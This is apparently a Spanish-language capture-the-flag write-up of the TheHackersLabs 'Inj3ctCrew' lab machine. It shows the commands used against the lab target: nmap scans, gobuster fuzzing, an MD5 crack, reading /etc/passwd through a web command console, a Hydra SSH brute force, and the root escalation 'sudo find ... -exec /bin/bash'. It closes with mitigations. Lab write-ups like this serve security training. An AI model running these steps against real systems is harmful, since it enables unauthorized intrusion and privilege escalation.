## Información General

|Campo|Valor|
|---|---|
|Máquina|Inj3ctCrew|
|Plataforma|TheHackersLabs|
|Dificultad|Fácil|
|IP|192.168.241.165|
|Sistema Operativo|Linux (Ubuntu)|
|Servicios|SSH (22), HTTP (80)|
|Vector inicial|Panel de administración web con RCE (credenciales filtradas)|
|Escalada de privilegios|`sudo find` sin contraseña (GTFOBins)|

## Resumen del Ataque

El reconocimiento inicial reveló solo dos puertos abiertos: SSH y un servidor Apache con la página "Sigue Buscando". El código fuente de la web contenía un comentario en Base64 que, al decodificarlo, apuntaba a un directorio de respaldo "comprometido" por un grupo llamado Inj3ctCrew. Un `gobuster` sobre la raíz encontró `login.php` y `backup.php`; el código fuente de este último contenía otro comentario que señalaba un fichero `PwnedCredentials.html` con un usuario `Admin` y un hash MD5. Ese hash se crackeó fácilmente en CrackStation (`qwerty`), lo que permitió entrar al panel de `login.php`, un panel administrativo con una consola para ejecutar comandos directamente en el sistema (RCE de fábrica). Desde ahí se listó `/etc/passwd`, revelando el usuario del sistema `nolen11`, cuya contraseña SSH cayó por fuerza bruta con Hydra y rockyou.txt. Ya como `nolen11` se capturó la flag de usuario. Un `sudo -l` mostró permiso NOPASSWD sobre `/usr/bin/find`, lo que permitió escalar a root de forma directa vía GTFOBins.

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-` y `-sC -sV`)
- Análisis de código fuente HTML en busca de comentarios ocultos
- Decodificación de cadenas en Base64
- Fuzzing de directorios/archivos con Gobuster
- Cracking de hash MD5 (CrackStation)
- Abuso de panel administrativo con ejecución de comandos (RCE)
- Enumeración de usuarios del sistema vía `/etc/passwd`
- Fuerza bruta de credenciales SSH con Hydra + rockyou.txt
- Escalada de privilegios vía `sudo` mal configurado (GTFOBins - `find`)

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.165
```



### 2. Enumeración de servicios

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.165
```



### 3. Revisión de la web

```
http://192.168.241.165/
```

Título de la página: "Sigue Buscando"


Revisando el código fuente aparece un comentario en Base64:

```
<!-- RWwgZGlyZWN0b3JpbyBkZSByZXNwYWxkbyBmdWUgY8y1zZvNisyQzJjMpsyYb8y1zYbNnc2EzZbNk8yYbcy0zJXNkMy/zZPMq82JcMy0zJrNhM2azYlyzLjNmM2EzL/Mocy6b8y4zaDNhM2bzYnMusyibcy1zZvNhs2GzZTNls2NZcy1zZjNoM2gzZTNmcyYdMy1zL/Nnc2AzZrMocyhacy1zaDNkcygzKZkzLXNnc2QzJrMos2UzJlvzLjMkM2EzYDNlsygzKY= -->
```



Se decodifica en local:

```
echo "RWwgZGlyZWN0b3JpbyBkZSByZXNwYWxkbyBmdWUgY8y1zZvNisyQzJjMpsyYb8y1zYbNnc2EzZbNk8yYbcy0zJXNkMy/zZPMq82JcMy0zJrNhM2azYlyzLjNmM2EzL/Mocy6b8y4zaDNhM2bzYnMusyibcy1zZvNhs2GzZTNls2NZcy1zZjNoM2gzZTNmcyYdMy1zL/Nnc2AzZrMocyhacy1zaDNkcygzKZkzLXNnc2QzJrMos2UzJlvzLjMkM2EzYDNlsygzKY=" | base64 -d
```



El mensaje ("El directorio de respaldo fue comprometido") sugiere que existe un directorio de respaldo, así que se procede a fuzzing de contenido web.

### 4. Fuzzing de directorios y ficheros

```
gobuster dir -u http://192.168.241.165 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak -t 40
```



### 5. Análisis de backup.php

```
http://192.168.241.165/backup.php
```



Código fuente de la página:

```
<!---Nosotros Inj3ctCrew, te hemos dejado una informacion importante en el directorio PwnedCredentials.html   --->
```



### 6. Credenciales filtradas

```
http://192.168.241.165/PwnedCredentials.html
```



El hash se crackea con CrackStation, obteniendo la contraseña en texto claro `qwerty`.

Credenciales resultantes:

```
Usuario: Admin
Contraseña: qwerty
```

### 7. Acceso al panel administrativo

```
http://192.168.241.165/login.php
```



El panel es una consola administrativa del servidor que permite ejecutar comandos directamente en el sistema.

```
cat /etc/passwd
```



Se identifica el único usuario con shell interactiva: `nolen11`.

### 8. Fuerza bruta SSH

```
hydra -l nolen11 -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.165 -t 4
```



### 9. Acceso como nolen11 y flag de usuario

```
nolen11@TheHackersLabs-Inj3ctCrew:~$ whoami
```



```
nolen11@TheHackersLabs-Inj3ctCrew:~$ cat Inj3ctCrew.txt 
```



```
nolen11@TheHackersLabs-Inj3ctCrew:~$ cat user.txt 
```



### 10. Escalada de privilegios

```
nolen11@TheHackersLabs-Inj3ctCrew:~$ sudo -l
```



`find` con NOPASSWD permite escalar directamente a root según GTFOBins:

```
nolen11@TheHackersLabs-Inj3ctCrew:~$ sudo /usr/bin/find . -exec /bin/bash \; -quit
```

```
root@TheHackersLabs-Inj3ctCrew:/home/nolen11# whoami
```



### 11. Flag de root

```
root@TheHackersLabs-Inj3ctCrew:~# cat root.txt 
```



## Lecciones Aprendidas

- Los comentarios HTML son un vector de fuga de información habitual: nunca deben contener pistas, rutas ni mensajes internos, ni siquiera ofuscados en Base64.
- La presencia de un panel administrativo con ejecución arbitraria de comandos ("consola de administración") es en sí misma una vulnerabilidad crítica de diseño, independientemente de cómo se proteja el acceso.
- La reutilización de hashes MD5 sin sal para credenciales administrativas los hace triviales de crackear con rainbow tables (CrackStation).
- Contraseñas débiles y predecibles (`qwerty`, `987654321`) siguen siendo el punto de entrada más común, tanto en paneles web como en SSH.
- Un permiso `sudo` NOPASSWD sobre un binario tan versátil como `find` equivale a root sin contraseña, algo que GTFOBins documenta ampliamente.

## Medidas de Mitigación

- Eliminar comentarios de depuración, notas internas y referencias a directorios/ficheros sensibles del código fuente en producción.
- No exponer paneles de administración con capacidad de ejecución de comandos directamente en Internet; si son imprescindibles, restringir el acceso por IP/VPN y aplicar autenticación fuerte (MFA).
- Sustituir MD5 por algoritmos de hash con sal y factor de coste ajustable (bcrypt, scrypt, Argon2) para el almacenamiento de contraseñas.
- Forzar políticas de contraseñas robustas y únicas, tanto para cuentas de aplicación como del sistema operativo.
- Implementar protección contra fuerza bruta en SSH (fail2ban, límite de intentos, autenticación por clave pública en lugar de contraseña).
- Auditar periódicamente los permisos `sudo` y evitar NOPASSWD sobre binarios presentes en GTFOBins salvo necesidad justificada; usar `sudoers` con rutas y argumentos restringidos.


